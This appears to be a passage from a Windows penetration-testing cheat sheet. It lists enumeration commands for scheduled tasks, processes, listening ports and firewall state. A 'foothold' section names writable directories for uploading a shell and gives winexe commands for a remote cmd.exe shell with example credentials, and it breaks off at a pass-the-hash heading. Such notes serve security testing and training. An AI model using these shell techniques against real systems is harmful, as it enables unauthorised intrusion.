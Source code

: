 	- **Don't forget to look for 'well known folders' inside administrator folder.- **

### Check for scheduled tasks

		schtasks /query /fo LIST /v
		schtasks /query /fo LIST /v
		tasklist /SVC

		OR

		Get-ScheduledTask
		Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State

### Look for a specific task

		tasklist /V | findstr mspaint.exe
		get-process
		Get-Process -Id (Get-NetTCPConnection -LocalPort YourPortNumberHere).OwningProcess
		Get-Process -Name Calculator -IncludeUserName

### Enumerate listening services

		netstat -a
		netstat -ap tcp
		netstat -anop
		netstat -ano

	-a: all  
	-n: numeric  
	-o: owner pid  
	-p: protocol  

### Check firewall state

	netsh firewall show state
	netsh firewall show config

# SPAWN SHELL / Foothold Techniques
## Safe Places to Upload a shell

- C:\Windows\temp
- C:\Windows\System32\spool\drivers\color

## From Kali with the winexe tool (use port 445)

	winexe -U 'admin%password123' //10.10.10.1 cmd.exe
	winexe -U 'admin%password123' --system //10.10.10.1 cmd.exe

## From Kali with the winexe tool (Pass The Hash - PTH)

Hash has to be in the LM:NTLM format
